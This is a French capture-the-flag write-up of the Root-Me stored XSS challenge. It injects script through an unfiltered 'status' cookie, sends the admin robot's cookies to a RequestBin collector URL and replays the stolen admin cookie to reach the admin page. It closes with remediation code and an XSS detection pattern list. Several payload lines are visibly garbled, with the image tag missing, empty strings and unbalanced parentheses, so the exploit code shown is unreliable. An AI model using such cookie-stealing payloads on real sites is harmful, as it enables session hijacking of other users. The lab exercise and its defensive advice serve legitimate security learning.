


# Root-Me – Challenge 9 : XSS Stockée 2

## 1. Nom du challenge & URL

**Nom** : Challenge 9 – XSS Stored 2 (XSS Stockée 2)

**URL** : [Root-Me Challenge 9](https://www.root-me.org/fr/Challenges/Web-Client/XSS-Stockee-2)

---

## 2. Objectif

Le but du challenge est d'exploiter une **XSS Stockée** (Stored XSS) pour **voler le cookie de session de l'administrateur** et accéder à la section admin.

**Citation de l'énoncé** :

> Steal the administrator session's cookie and go in the admin section.

**Type d'attaque** : Stored XSS (Cross-Site Scripting persistant)

---

## 3. Étapes de découverte de la vulnérabilité

### 3.1. Analyse initiale de la page

En accédant au challenge, on découvre :

1. Une page avec **deux champs d'entrée** : `Title` et `Content`
2. Un lien **"admin"** dans le menu supérieur qui redirige vers `?section=admin`
3. Lorsqu'on clique sur ce lien, l'URL change mais le contenu de la page reste identique
4. **Hypothèse** : Cette page admin nécessite probablement le cookie de l'administrateur pour être accessible

### 3.2. Test des points d'injection

On teste les deux champs d'entrée avec des payloads XSS classiques :

```html
<script>alert(1)</script>

```

**Résultat** : Les deux champs filtrent tous les caractères HTML et les balises. **Aucune injection possible directement**.

### 3.3. Observation du comportement de la page

Après avoir soumis un message, on observe que **3 éléments** sont affichés :

1. Le **Title** saisi
2. Le **Content** saisi
3. Une valeur **Status** dans le coin supérieur droit (qui semble fixe à `invite`)

**Découverte importante** : En rafraîchissant la page plusieurs fois, on remarque qu'un **robot administrateur** (admin-robot) lit périodiquement les messages soumis dans la base de données.

### 3.4. Analyse des cookies et du DOM

En ouvrant les **Developer Tools** du navigateur :

#### Dans l'onglet Network :
On découvre que les cookies de la page contiennent :
```
status=invite; uid=wKgbZFxF4fV0HH+nA2kGAg==
```

#### Dans l'onglet Elements :
On examine le HTML et on trouve que la valeur `invite` est affichée dans un attribut `class` d'une balise `<i>` :

```html
<i class="invite">Status</i>
```

### 3.5. Test d'injection via les cookies

En utilisant **Burp Suite → Repeater**, on modifie manuellement la valeur du cookie `status` :

```
Cookie: status=TEST; uid=wKgbZFxF4fV0HH+nA2kGAg==
```

**Résultat** : La valeur de l'attribut `class` de la balise `<i>` change également en `TEST` !

```html
<i class="TEST">Status</i>
```

**Conclusion** : Le cookie `status` est reflété dans la page **sans filtrage** ! C'est notre **point d'injection XSS**.

---

## 4. Exploitation de la vulnérabilité

### 4.1. Test de la vulnérabilité XSS

On construit un payload pour fermer la balise `<i>` et injecter du JavaScript :

```javascript
"><script>alert(1)</script>
```

En l'envoyant via le cookie `status` avec **Burp Suite → Repeater** :

```
Cookie: status="><script>alert(1)</script>; uid=wKgbZFxF4fV0HH+nA2kGAg==
```

**Résultat** : Une boîte d'alerte apparaît ! **L'injection XSS fonctionne**.

### 4.2. Stratégie d'attaque

Maintenant que nous avons identifié le point d'injection, la stratégie est la suivante :

1. Injecter un payload XSS via le cookie `status`
2. Le payload sera **stocké** dans la base de données
3. Quand le **robot administrateur** lira ce message, le JavaScript s'exécutera
4. Le script volera le **cookie de l'admin** et l'enverra vers un serveur contrôlé

### 4.3. Construction du payload de vol de cookie

On va utiliser une balise `` avec un `src` qui pointe vers notre serveur, en incluant le cookie dans l'URL :

```javascript
"><script>document.write(""))</script>
```

**Encodé en URL** :

```javascript
"><script>document.write(%22%22))</script>
```

### 4.4. Mise en place d'un serveur d'écoute

Pour recevoir le cookie, on peut utiliser :

* **RequestBin** : Service en ligne qui génère une URL temporaire pour collecter des requêtes HTTP
* **Exemple d'URL générée** : `http://requestbin.fullcontact.com/q9vld7q9`

Le payload devient donc :

```javascript
"><script>document.write(%22%22))</script>
```

### 4.5. Problème rencontré : Cookie incomplet

Après avoir soumis le payload et attendu que le robot admin lise le message, on vérifie les requêtes reçues sur RequestBin.

**Problème** : On ne reçoit que le paramètre `status`, mais le paramètre **`uid` est manquant** !

**Analyse** : Le cookie complet est :
```
status=invite; uid=wKgbZFxF4fV0HH+nA2kGAg==
```

L'espace entre `status` et `uid` cause un problème dans le HTML généré :

```html

```

Le navigateur interprète cela comme :
* `src="http://requestbin.fullcontact.com/q9vld7q9?status=invite;"` ← Seule cette partie est envoyée
* `uid="wKgbZFxF4fV0HH+nA2kGAg=="` ← Devient un attribut séparé de la balise ``

### 4.6. Solution : Remplacer l'espace par &

Pour résoudre ce problème, on remplace l'espace dans le cookie par un `&` pour concaténer correctement les paramètres :

```javascript
"><script>document.write(%22%22))</script>
```

**Payload final avec RequestBin** :

```javascript
"><script>document.write(%22%22))</script>
```

---

## 5. Payload final utilisé

### Étape 1 : Injection du payload via Burp Suite

```http
GET /web-client/ch19/ HTTP/1.1
Host: challenge01.root-me.org
Cookie: status="><script>document.write(%22%22))</script>; uid=wKgbZFxF4fV0HH+nA2kGAg==
```

### Étape 2 : Attente de la lecture par le robot admin

Le robot administrateur lit périodiquement les messages stockés. Il faut attendre quelques instants.

### Étape 3 : Récupération du cookie admin

Sur RequestBin, on reçoit une requête contenant :

```
status=invite&ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F
```

### Étape 4 : Reconstruction du cookie

On remplace le `&` par un espace pour obtenir le cookie valide :

```
status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F
```

### Étape 5 : Accès à la section admin

Avec **Burp Suite → Repeater**, on envoie une requête vers la page admin avec le cookie volé :

```http
GET /web-client/ch19/?section=admin HTTP/1.1
Host: challenge01.root-me.org
Cookie: status=invite; ADMIN_COOKIE=SY2USDIH78TF3DFU78546TE7F
```

---

## 6. Résultat obtenu

En accédant à la page `?section=admin` avec le cookie de l'administrateur, on obtient le flag :

**Le flag est** : `E5HKEGyCXQVsYaehaqeJs0AfV`

Le challenge est validé !



---

## 7. Screenshot

Voici un screenshot prouvant que le challenge est terminé :



---

## 8. Explication technique détaillée

### 8.1. Pourquoi l'injection fonctionne via le cookie ?

Le code côté serveur récupère probablement la valeur du cookie `status` et l'insère directement dans le HTML sans validation :

```php
<?php
$status = $_COOKIE['status'];
echo '<i class="' . $status . '">Status</i>';
?>
```

### 8.2. Différence entre XSS Reflété et XSS Stocké

| XSS Reflété                                       | XSS Stocké                                           |
| ------------------------------------------------- | ---------------------------------------------------- |
| Le payload est dans l'URL ou les paramètres       | Le payload est enregistré dans la base de données    |
| Impact limité à la victime qui clique sur le lien | Affecte tous les utilisateurs qui consultent la page |
| Non persistant                                    | Persistant                                           |

### 8.3. Fonctionnement du payload

```javascript
"><script>
  document.write(
    "")
  )
</script>
```

**Décomposition** :

1. **`">`** : Ferme la balise `<i class="...">` 
2. **`<script>`** : Ouvre une balise de script
3. **`document.write()`** : Écrit du HTML dans la page
4. **``** : Crée une image qui fait une requête HTTP
5. **`document.cookie`** : Récupère tous les cookies de la page
6. **`.replace(" ", "&")`** : Remplace l'espace par `&` pour éviter la séparation
7. **`.concat()`** : Concatène les chaînes pour former l'URL complète

### 8.4. Pourquoi utiliser une balise `` ?

La balise `` est parfaite pour exfiltrer des données car :

* Elle charge automatiquement le `src` spécifié
* Elle fonctionne même si le serveur ne retourne pas d'image valide
* Elle permet d'envoyer des données via les paramètres d'URL
* Elle ne nécessite pas d'interaction utilisateur

---

## 9. Recommandations pour sécuriser la vulnérabilité

Pour corriger cette vulnérabilité XSS Stockée, il faut implémenter les mesures suivantes :

### 9.1. Encoder les sorties (Output Encoding)

**Toujours encoder** les données avant de les afficher dans le HTML [1] [2] :

**Code vulnérable** :

```php
<?php
$status = $_COOKIE['status'];
echo '<i class="' . $status . '">Status</i>';
?>
```

**Code sécurisé** :

```php
<?php
$status = $_COOKIE['status'];
$safe_status = htmlspecialchars($status, ENT_QUOTES, 'UTF-8');
echo '<i class="' . $safe_status . '">Status</i>';
?>
```

### 9.2. Utiliser Content Security Policy (CSP)

Implémenter une **politique de sécurité du contenu** stricte [2] [3] :

```http
Content-Security-Policy: 
  default-src 'self'; 
  script-src 'self'; 
  object-src 'none'; 
  base-uri 'self'; 
  frame-ancestors 'none';
```

En PHP :

```php
<?php
header("Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';");
?>
```

### 9.3. Valider et sanitiser les entrées

Valider strictement toutes les entrées, **y compris les cookies** [1] [3] :

```php
<?php
function validate_status($status) {
    // Liste blanche des valeurs autorisées
    $allowed_values = ['invite', 'member', 'admin'];
    
    if (!in_array($status, $allowed_values)) {
        return 'invite'; // Valeur par défaut sécurisée
    }
    
    return $status;
}

$status = validate_status($_COOKIE['status']);
?>
```

### 9.4. Utiliser des flags de cookie sécurisés

Configurer les cookies avec des attributs de sécurité [3] [4] :

```php
<?php
setcookie(
    'status',
    'invite',
    [
        'expires' => time() + 3600,
        'path' => '/',
        'domain' => '.example.com',
        'secure' => true,      // HTTPS uniquement
        'httponly' => true,    // Inaccessible via JavaScript
        'samesite' => 'Strict' // Protection CSRF
    ]
);
?>
```

**Avec `httponly=true`, le cookie ne peut pas être lu par `document.cookie`**, empêchant ainsi le vol de cookie via XSS.

### 9.5. Implémenter une validation côté serveur stricte

Ne jamais faire confiance aux données côté client [1] [2] :

```php
<?php
// Vérifier l'origine de la requête
if (!isset($_SERVER['HTTP_REFERER']) || 
    strpos($_SERVER['HTTP_REFERER'], 'example.com') === false) {
    die('Invalid request origin');
}

// Vérifier les tokens CSRF
if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
    die('CSRF token mismatch');
}
?>
```

### 9.6. Utiliser un framework avec protection XSS intégrée

Les frameworks modernes incluent des protections automatiques [4] [5] :

**React** (auto-escape par défaut) :

```jsx
function UserStatus({ status }) {
    // React échappe automatiquement les variables
    return <i className={status}>Status</i>;
}
```

**Vue.js** (auto-escape) :

```vue
<template>
  <i :class="status">Status</i>
</template>
```

**Django** (auto-escape) :

```django
<i class="{{ status }}">Status</i>
```

### 9.7. Échapper selon le contexte

Utiliser la bonne fonction d'échappement selon le contexte [2] [5] :

```php
<?php
// Contexte HTML
echo htmlspecialchars($data, ENT_QUOTES, 'UTF-8');

// Contexte JavaScript
echo json_encode($data, JSON_HEX_TAG | JSON_HEX_AMP);

// Contexte URL
echo urlencode($data);

// Contexte CSS
function css_escape($string) {
    return preg_replace('/[^a-z0-9]/i', '\\\\$0', $string);
}
?>
```

### 9.8. Implémenter une politique de stockage sécurisée

Sanitiser les données **avant** de les stocker en base [3] [4] :

```php
<?php
function sanitize_for_storage($input) {
    // Supprimer les balises HTML
    $clean = strip_tags($input);
    
    // Échapper les caractères spéciaux
    $clean = htmlspecialchars($clean, ENT_QUOTES, 'UTF-8');
    
    // Limiter la longueur
    $clean = substr($clean, 0, 255);
    
    return $clean;
}

$title = sanitize_for_storage($_POST['title']);
$content = sanitize_for_storage($_POST['content']);

// Utiliser des requêtes préparées
$stmt = $pdo->prepare("INSERT INTO messages (title, content) VALUES (?, ?)");
$stmt->execute([$title, $content]);
?>
```

### 9.9. Monitoring et détection d'attaques

Mettre en place des alertes pour détecter les tentatives XSS [4] [5] :

```php
<?php
function detect_xss_attempt($input) {
    $dangerous_patterns = [
        '/<script/i',
        '/javascript:/i',
        '/onerror=/i',
        '/onload=/i',
        '/<iframe/i',
        '/document\.cookie/i'
    ];
    
    foreach ($dangerous_patterns as $pattern) {
        if (preg_match($pattern, $input)) {
            // Logger l'incident
            error_log("XSS attempt detected: " . $input);
            
            // Alerter l'équipe de sécurité
            mail('security@example.com', 'XSS Attempt', 
                 'IP: ' . $_SERVER['REMOTE_ADDR'] . "\n" .
                 'Input: ' . $input);
            
            return true;
        }
    }
    
    return false;
}

if (detect_xss_attempt($_POST['content'])) {
    die('Suspicious input detected');
}
?>
```

---

## 10. Références

[1] [OWASP – Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/) - Guide complet sur les attaques XSS

[2] [OWASP – XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) - Bonnes pratiques pour prévenir les XSS

[3] [OWASP – Stored XSS](https://owasp.org/www-community/attacks/xss/#stored-xss-attacks) - Guide spécifique sur les XSS stockées

[4] [Content Security Policy (CSP) Reference](https://content-security-policy.com/) - Documentation complète sur CSP

[5] [Cookie Security Guide](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#security) - Guide de sécurité des cookies

[6] [DOM-based XSS Prevention](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html) - Prévention des XSS basées sur le DOM

[7] [HTML Encoding Reference](https://www.w3schools.com/html/html_entities.asp) - Référence sur l'encodage HTML